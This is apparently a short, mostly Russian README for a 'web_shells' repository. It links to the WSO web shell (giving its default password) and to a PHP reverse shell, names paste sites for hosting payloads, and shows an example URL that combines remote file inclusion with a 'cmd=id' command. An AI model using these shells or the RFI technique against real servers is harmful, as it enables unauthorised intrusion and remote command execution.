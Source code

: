 # web_shells For educational purposes only!

## wso shell 
original repo - https://github.com/mIcHyAmRaNe/wso-webshell

Пароль по умолчанию - ghost287 (поменять пароль можно в строке 7 указав md5 хеш нового пароля)

## rev-shell 
original repo - https://github.com/pentestmonkey/php-reverse-shell/tree/master

Не забудьте указать новый IP и PORT на строке 49 и 50

## pastebin like services
Список сервисов для публикации кода https://github.com/lorien/awesome-pastebins
Проверенные бесплатные сервисы:
- http://vpaste.net/
- https://bpa.st/
- https://pastebin.mozilla.org/
- https://paste.debian.net/
- https://pastebin.fi/

После размещения ищем кнопку RAW и получаем ссылку на текст файла, который уже можно использовать для RFI\RCE

P.S. При работе с RFI не забывайте, что вы передаёте ссылку как параметр, и если внутри вашего кода тоже есть обработчик параметра, то его нужно передавать не через символ `?`, а через символ`&`

🚫 BAD - http://127.0.0.1/test.php?page=https://example.com/r/lolkek?cmd=id 

🆗 GOOD - http://127.0.0.1/test.php?page=https://example.com/r/lolkek&cmd=id 
